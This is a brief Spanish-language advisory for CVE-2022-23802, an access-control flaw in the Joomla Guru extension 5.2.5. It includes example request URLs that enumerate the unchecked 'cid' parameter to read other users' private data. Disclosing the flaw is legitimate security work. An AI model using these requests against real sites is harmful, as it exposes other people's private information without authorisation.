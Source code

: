 # Insecure Permissions CVE-2022-23802

## Sistemas afectados

Joomla Guru extension 5.2.5

## Descripción

El impacto es: obtener información sensible (en remoto). El componente es: Acceso a información privada y componentes, posibilidad de ver la información de otros usuarios. Revelación de información, acceso a información y componentes privados, posibilidad de ver la información de otros usuarios.

## Owner

Escenario del ataque
Plataforma Joomla con el plugin guru instalado
Un usuario registrado sin privilegios, en algunos casos incluso sin registrar

Ataque
https://site.com/index.php?option=com_guru&view=gurutasks&cid=X&tmpl=component

La clave está en el parámetro cid, sobre dicho parámetro no está controlada la entrada y modificándolo, podemos tener acceso a distintas zonas privadas del plugin guru. El parámetro incialmente tiene le formato "entero-cadena", pero se puede sustituir únicamente por un número entero, quedando ya el ataque como:

https://site.com/index.php?option=com_guru&view=gurutasks&cid=1&tmpl=component
https://site.com/index.php?option=com_guru&view=gurutasks&cid=2&tmpl=component
https://site.com/index.php?option=com_guru&view=gurutasks&cid=3&tmpl=component
...

## Links

https://cve.report/CVE-2022-23802

https://cve.mitre.org/cgi-bin/cvename.cgi?name=2022-23802

https://www.incibe-cert.es/alerta-temprana/vulnerabilidades/cve-2022-23802
